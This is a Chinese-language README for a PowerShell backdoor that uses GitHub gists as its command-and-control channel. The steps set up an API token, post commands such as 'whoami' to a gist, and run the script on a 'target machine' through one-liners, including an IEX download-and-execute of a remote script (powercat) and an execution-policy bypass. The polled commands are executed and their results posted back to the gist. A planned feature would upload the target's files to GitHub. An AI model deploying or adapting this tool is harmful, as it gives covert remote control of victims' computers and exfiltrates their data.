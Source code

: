 #Powershell Github Shell
	Author:zshell
	Blog:http://www.0x7c.com
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：
	1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.
	2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：
	为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
		Command:"time /T"	//javascript
		ReadFile:"c:/windows/temp/1.txt" 	//javascript
		WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"	//javascript
		Powershell:"Get-Process | Out-String"	//javascript
		Command:"whoami"	//javascript
其中
	Command后是想要执行的cmd命令，功能已测试OK
	ReadFile是上传目标机器上的文件到Github，暂未实现
	WriteFile下载文件到目标机器，暂未实现
	Powershell后是可以执行的Powershell指令，暂未实现

	3, 修改Powershell脚本的头部配置信息
		$gistsUser="gitusername";		# github的用户名
		$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1
		$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位

	4, 使powershell在目标机器上执行
		Powershell执行方法
		一句话远程加载 
		powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')	//powershell

		一句话本地加载
		powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell

		一句话文件执行
		powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell

	5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
